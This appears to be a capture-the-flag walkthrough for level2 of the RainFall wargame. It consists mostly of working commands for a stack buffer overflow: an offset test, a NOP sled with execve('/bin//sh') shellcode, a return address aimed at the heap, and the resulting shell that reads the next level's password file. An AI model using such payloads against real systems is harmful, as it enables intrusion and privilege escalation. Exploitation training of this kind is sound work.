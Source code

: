 # Walkthrough level2

```bash
level2@RainFall:~$ python -c "print('A' * 76 + 'B' * 4 + 'CCCC')" | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCCAAAAAAAABBBBCCCC
Segmentation fault (core dumped)
```

```bash
level2@RainFall:~$ python -c "print('A' * 76 + 'B' * 4 + '\x00\x00\x00\xb0')" | ./level2
(0xb0000000)
```

[shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html)

```bash
level2@RainFall:~$ python -c "print('\x90' * 26 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A' * 26 + '\x08\xa0\x04\x08')" > /tmp/payload
level2@RainFall:~$ cat - | ./level2 < /tmp/payload
1Ph//shh/bin°
             ̀1@̀AAAAAAAAAAAAAAAAAAAA
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
